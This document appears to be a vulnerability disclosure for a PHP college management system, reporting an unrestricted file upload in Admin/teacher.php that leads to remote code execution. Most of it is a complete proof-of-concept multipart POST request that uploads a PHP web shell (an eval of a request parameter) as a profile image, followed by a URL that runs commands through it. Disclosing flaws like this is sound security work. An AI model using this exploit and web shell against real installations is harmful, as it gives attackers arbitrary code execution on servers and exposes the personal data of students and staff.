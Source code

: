 # college-management-system-in-php has remote code excute vulnerability and unrestricted upload  vulnerability in teacher.php

## supplier 
https://code-projects.org/college-management-system-in-php-with-source-code/
## Vulnerability parameter
teacher.php

## describe

The system's teacher.php. php has a vulnerability for arbitrary file upload, which can upload Trojan files and execute malicious code.

**Code analysis**    

When the value of   $FILES parameter is obtained in function , it will be uploaded to /images.

![Image](https://github.com/user-attachments/assets/418f72f8-492e-4d2a-a172-0ee4aa52105e)



## POC

```
POST /Admin/teacher.php HTTP/1.1
Host: college-management-system
Content-Length: 3723
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://college-management-system
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0kx8SRubJh8uHuVl
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://college-management-system/admission.php/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="first_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="middle_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="last_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="father_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="email"

123456@qq.com
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="mobile_no"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="course_code"

Select Course
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="session"

Select Session
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="profile_image"; filename="shellRce.php"
Content-Type: application/octet-stream

<?php
@eval($_REQUEST['shell']);
?>
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="prospectus_issued"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="prospectus_amount"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="form_b"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="applicant_status"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="application_status"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="cnic"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="dob"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="other_phone"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="gender"

Select Gender
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="permanent_address"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="current_address"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="place_of_birth"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="matric_complition_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="matric_awarded_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="matric_certificate"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="fa_complition_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="fa_awarded_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="fa_certificate"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="ba_complition_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="ba_awarded_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="ba_certificate"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="password"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="role"

Teacher
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="btn_save"

&#25552;&#20132;
------WebKitFormBoundary0kx8SRubJh8uHuVl--

```

**Result**

```
http://college-management-system/Admin/images/shellRce.php?shell=phpinfo();
```

![Image](https://github.com/user-attachments/assets/2cb723dc-a11d-4f2a-9473-63c13e070cbb)

![Image](https://github.com/user-attachments/assets/aa1d297e-13f8-4026-b26a-236ec6b41472)